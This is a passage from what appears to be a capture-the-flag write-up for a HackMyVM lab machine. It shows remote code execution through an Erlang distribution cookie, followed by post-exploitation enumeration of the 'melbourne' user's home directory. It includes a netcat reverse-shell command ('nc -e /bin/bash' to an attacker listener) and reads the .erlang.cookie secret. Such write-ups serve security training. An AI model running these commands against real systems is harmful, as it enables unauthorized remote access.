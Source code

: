 `./shell-erldp.py 192.168.56.142 35327 "batman" "nc -e /bin/bash 192.168.56.118 4444"`:
```
[*] authenticated onto victim ←
```

```
[13:40:40] received connection from 192.168.56.142:98821 ←
[13:40:41] 192.168.56.142:98821: registered new host w/ db
```

![Victim: melbourne](https://img.shields.io/badge/Victim-melbourne-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
melbourne ←
```

`id`:
```
uid=1000(melbourne) gid=1000(melbourne) groups=1000(melbourne),100(users)
```

`uname -a`:
```
Linux metamorphose.hmv 6.1.0-21-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.90-1 (2024-05-03) x86_64 GNU/Linux
```

`lsb_release -a`:
```
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 12 (bookworm)
Release:        12
Codename:       bookworm
```

`cd /home/melbourne`

`ls -alps ./`:
```
total 28
4 drwx------ 3 melbourne melbourne 4096 Feb 26  2024 ./
4 drwxr-xr-x 4 root      root      4096 Feb 26  2024 ../
0 lrwxrwxrwx 1 root      root         9 Feb 26  2024 .bash_history -> /dev/null
4 -rw-r--r-- 1 melbourne melbourne  220 Feb 26  2024 .bash_logout
4 -rw-r--r-- 1 melbourne melbourne 3526 Feb 26  2024 .bashrc
4 -rw------- 1 melbourne melbourne    7 Feb 26  2024 .erlang.cookie
4 drwxr-xr-x 3 melbourne melbourne 4096 Mar  2  2024 .local/
4 -rw-r--r-- 1 melbourne melbourne  807 Feb 26  2024 .profile
```

`cat ./.erlang.cookie`:
```
batman
```

`ls -alps /home`:
```
total 276
  4 drwxr-xr-x  4 root      root        4096 Feb 26  2024 ./
264 drwxr-xr-x 18 root      root      266240 May 28 11:22 ../
  4 drwx------  2 coralie   coralie     4096 Feb 26  2024 coralie/ ←
  4 drwx------  3 melbourne melbourne   4096 Feb 26  2024 melbourne/
```
